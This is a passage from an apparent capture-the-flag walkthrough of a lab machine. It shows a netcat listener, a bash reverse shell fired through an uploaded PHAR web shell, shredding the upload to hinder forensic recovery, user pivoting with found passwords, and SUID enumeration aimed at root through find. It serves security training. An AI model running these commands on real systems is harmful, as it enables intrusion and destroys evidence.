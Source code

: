 Now we open our file and try to gain access to the system. We listen on port `443` on our machine:

```
nc -nlvp 443
```

And we

 execute a command from the URL that will send the interactive console:

```
venom.box/uploads/pwned.phar?cmd=bash -c "bash -i >& /dev/tcp/ourIP/443 0>&1"
```

Now we have access to the machine!

We apply a tty treatment:

```
script /dev/null -c bash (press enter)
Ctrl + Z (press enter)
stty raw -echo; fg (press enter)
reset xterm (press enter)
export TERM=xterm (press enter)
export SHELL=/bin/bash (press enter)
stty rows 61 columns 186 (press enter)
```

And voila, we have the console ready to operate. If we do an `ls -la` in the terminal we see several files, including our `pwned.phar`. We can delete it with:

```
shred -zun 10 -v pwned.phar
```

This way we make sure to properly delete our file and it will be harder to recover it with forensic techniques.

Now we go to the home directory with `cd /home`, we see two users, we switch to the `hostinger` user with `su hostinger`, we put in the password `hostinger` and look at the hidden files with `cd` and next `ls -la`. We see a `.bash_history` so let's check what it contains.

We see that a `cat` of  `/var/www/html/subrion/backup/.htaccess`. 

We go to that directory to see what we find with `cd /var/www/html/subrion/backup/`, we do an `ls -la` and see the `.htaccess` file. In principle, this file shouldn't be a problem, we do a `cat .htaccess` and see something interesting.

That could be the password of the other user, so we try to log in with that user. With `su nathan` we put in the password and effectively start a session.

We do `cd` and then `ls` and see what files this user has. We see a `user.txt`, we open it with `cat user.txt` and see the contents.

Now let's enumerate SUID permissions, but first do `cd /` and now:

```
find -perm -4000 2>/dev/null
```

We look for what we can exploit and see that the `find` binary is SUID which is strange to have that privilege. If we can take advantage of some `find` parameter that allows us to inject a command, that command will be executed as root.

